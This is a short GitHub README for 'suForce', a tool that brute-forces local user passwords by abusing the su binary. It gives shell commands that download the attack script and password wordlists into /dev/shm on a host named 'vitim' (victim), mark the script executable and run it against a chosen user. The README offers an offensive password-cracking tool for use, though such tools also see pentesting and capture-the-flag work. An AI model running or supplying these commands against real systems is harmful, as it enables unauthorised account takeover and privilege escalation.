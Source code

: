 # suForce

**`suForce` performs `brute force` attacks on user `passwords` by abusing the `su` binary.**

![](/screenshot.png)

- <kbd>Download</kbd>

* suForce

```cmd
user@vitim:~$ cd /dev/shm
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/suForce.sh"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/techyou.txt"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/top12000.txt"
user@vitim:~$ chmod +x suForce.sh
```

- <kbd>Use</kbd>

```cmd
user@vitim:~$ ./suForce.sh -u <USER> -w <WORDLIST>
```

---
